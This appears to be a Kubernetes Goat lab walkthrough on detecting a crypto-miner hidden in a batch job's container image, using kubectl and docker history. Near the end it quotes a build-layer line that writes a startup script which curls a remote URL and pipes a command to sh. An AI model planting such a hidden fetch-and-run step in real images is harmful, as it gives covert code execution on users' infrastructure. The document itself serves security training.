

# Analysing crypto miner container

## Scenario Information

Crypto mining has became popular with these modern infrastructure. Especially environments like Kubernetes is easy target as you might not event look what exactly the container image built upon and what it is doing with proactive monitoring. Here in this scenario, we will analyse and identify the crypto miner.

* To get started, identify all the resources/images in the Kubernetes cluster. Including Jobs.

```bash
kubectl get jobs
```


## Scenario Solution

> Identify the all resources with in Kubernetes cluster. If possible get into details of each container image available in all the nodes with in the cluster as well

* Once we have identified the job we ran in the Kubernetes cluster, got the pod information by running following command

```bash
kubectl describe job batch-check-job
```



* Then get the pod information by running the below command

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* Then get the pod information manifest and analyse

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```


* Identified that it's running `madhuakula/k8s-goat-batch-check` docker image

* After performing analysis of this image we identified it has the mining stuff in the build time script in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```


> `echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup`

## Miscellaneous

TBD
